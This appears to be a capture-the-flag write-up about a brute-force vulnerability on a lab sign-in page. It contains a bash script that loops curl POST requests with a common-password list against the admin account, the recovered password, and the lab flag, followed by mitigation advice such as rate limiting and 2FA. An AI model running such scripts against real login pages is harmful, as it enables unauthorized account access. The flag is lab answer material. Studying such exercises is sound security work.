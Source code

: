 # Brute Force Sign-In Vulnerability

## Overview

A **Brute Force Vulnerability** was discovered on the sign-in page, allowing attackers to repeatedly attempt multiple password combinations to gain unauthorized access to an account. This issue demonstrates the absence effective rate limiting, account lockout mechanisms or even Two Factor Authentication.

## Methodology

1. **Password List Creation**

   - A list of commonly used passwords was sourced and filtered from [Wikipedia](https://en.wikipedia.org/wiki/List_of_the_most_common_passwords), containing entries such as:
     - `123456`, `password`, `12345678`, `qwerty`, `abc123`, `shadow`, and more.

2. **Script Execution**

   - A Bash script was created to iterate through the password list and send HTTP POST requests to the sign-in page.

   - Script:

     ```bash
     password=(1q2w3e4r, 1qaz2wsx, 123123, 12345, 123456, 1234567, 12345678, 123456789, 1234567890, 1234, 123qwe, abc123, admin, adobe123, access, ashley, baseball, bailey, batman, charlie, dragon, donald, flower, football, freedom, hello, hottie, iloveyou, jesus, letmein, login, lovely, master, michael, monkey, mustang, password, password1, photoshop, princess, qwerty, qwerty123, qwertyuiop, shadow, solo, sunshine, trustno1, zaq1zaq1)

     for i in ${password[@]}; do
         echo ${i}
         curl -X POST "http://192.168.122.121/index.php?page=signin&username=admin&password=${i}&Login=Login" | grep 'flag'
     done
     ```

3. **Exploitation**
   - The script was executed to test password combinations against the `admin` username.
   - The password `shadow` successfully authenticated the account, revealing the flag.

## Flag

- **Flag**: b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2

---

## How to Prevent Identification And Authentication Failures Vulnerabilities

To mitigate brute force vulnerabilities, implement the following security measures:

1. **Rate Limiting**

   - Limit the number of login attempts per user/IP address within a specified timeframe.

2. **Account Lockout Mechanisms**

   - Temporarily lock accounts after a certain number of failed login attempts.

3. **Strong Password Policies**

   - Enforce strong password creation rules, requiring a mix of uppercase, lowercase, numbers, and special characters.

4. **Two-Factor Authentication (2FA)**

   - Add an additional layer of security by requiring a second authentication factor.

5. **Captcha Integration**

   - Implement CAPTCHA to prevent automated login attempts.

6. **Monitoring and Alerts**

   - Monitor login attempts and generate alerts for suspicious activity (e.g., multiple failed attempts).

7. **Hash and Salt Passwords**
   - Store passwords securely using strong hashing algorithms and salts.

By employing these best practices, developers can reduce the risk of brute force attacks and ensure robust authentication mechanisms.
